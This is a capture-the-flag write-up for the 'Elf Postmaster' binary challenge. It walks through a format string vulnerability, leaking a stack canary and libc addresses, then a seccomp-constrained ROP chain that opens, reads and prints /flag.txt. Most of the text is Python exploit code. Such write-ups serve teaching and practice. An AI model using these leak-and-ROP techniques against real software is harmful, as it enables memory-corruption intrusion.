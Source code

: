 # The Elf Postmaster

A quick look in Ghidras decompiled code for the main function tells us, that we are dealing with a format string vulnerabilty.

The first one:
```C++
    fgets(local_118,0x100,stdin);
    printf("Oh, greetings ");
    printf(local_118);
```

And the second one in a lopp:

```C++
    fgets(local_118,0x100,stdin);
    printf("Okok, I am taking notes, so you said: ");
    printf(local_118);
```

`local_118` is directly under our control, so lets send a lot of %p's to get the infos out (`p.sendline("%p" * 80`)! The interesting values were at position 30, 39, 40 and 41 and the rest could be calculated (we know from the Dockerfile that we are dealing with Ubuntu 18.04).

```python
payload = "%30$p %39$p %40$p %41$p"
p.sendline(payload)
p.recvuntil("Oh, greetings ")
stack, canary, binbase, ret = p.recvline().rstrip().split(" ")

stack    = int(stack, 16)  #some address from the stack
rsp      = stack - 0x128   #address of stackpointer
ret_addr = stack - 0xd8    #address of ret(2libc)
ret      = int(ret, 16)    #ret value
libcbase = ret - 0x21b97;  #libc base calculation for ubuntu 18.04
binbase  = int(binbase , 16) - 0xc00 
canary   = int(canary, 16)
```

The write function, writes the second parameter relative to the leaked address to the stack. 
I get some weird crashes due to the Ubuntu 18.04 16-byte Stack-Alignment-Restriction on memory operations, so I shift the rsp around to get rid of it.

```python
write(-0x10, (libcbase + POP_RSP_OFFSET), 32)      # -0x10 is the location of ret address
write(-0x08, (rsp + 0x40), 48)                     # New StackPointer 16-Byte aligned
```

There was a Seccomp restrction enabled, so we only could use a few syscall and all the fancy shell opening ones were missing. But it's a CTF so we want to get the content of a file. Open and read weren't restricted and we know that the file was locatead at `/home/ctf/flag.txt` (or later chrooted to `/flag.txt`).

The only thing left is open the file, read it and prinf the content. 
Flag captured!

```python
payload = "A" * 0x10 + "/flag.txt\x00" + "A" * 30  
payload += p64(libcbase + RET_OFFSET)                   

# Open File
payload += p64(libcbase + POP_RDI_OFFSET)          
payload += p64(rsp + 0x10) # 1                     
payload += p64(libcbase + POP_RDX_RSI_OFFSET)      
payload += p64(0x00) # 3
payload += p64(0x00) # 2
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + OPEN_OFFSET)   

# Read File
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + POP_RDI_OFFSET)
payload += p64(0x03) # 1
payload += p64(libcbase + POP_RDX_RSI_OFFSET)
payload += p64(0x40) # 3
payload += p64(stack + 0x8) 
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + READ_OFFSET)

# Print Flag
payload += p64(libcbase + RET_OFFSET)              
payload += p64(libcbase + POP_RAX_OFFSET)
payload += p64(binbase + 0xb4c)
payload += p64(libcbase + MOV_RDI_RSI_OFFSET)

p.sendline(payload)

p.sendline("end of letter")
p.recvuntil("year!")

print "\n"
flag = p.recvuntil("}")
print flag
print "\n"
```

